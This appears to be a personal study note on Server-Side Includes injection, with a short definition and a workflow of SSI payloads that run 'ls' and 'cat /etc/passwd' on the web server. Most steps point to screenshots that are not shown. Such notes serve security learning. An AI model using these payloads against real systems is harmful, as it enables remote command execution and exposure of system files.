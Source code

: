 [[Other-Injections]]
[Youtube](https://www.youtube.com/watch?v=GMSix1a1Mi0)

# Server-Side Includes (SSI) Injection
- SSI Injection is a server-side exploit technique that allows an attacker to send code into a web application, which will later be executed locally by the web server.


## Workflow
1. ![[Pasted image 20201211005339.png]]![[Pasted image 20201211005401.png]]
2.  `<!-- #exec cmd="/bin/ls /"-->`
	1.  ![[Pasted image 20201211005521.png]]
	2.  ![[Pasted image 20201211005542.png]]
3.  `<!-- #exec cmd="ls "-->`
	1.  ![[Pasted image 20201211005630.png]]
	2.  ![[Pasted image 20201211005644.png]]
4.  `<!-- #exec cmd="cat /etc/passwd "-->`
	1.  ![[Pasted image 20201211010212.png]]
	2.  ![[Pasted image 20201211010224.png]]
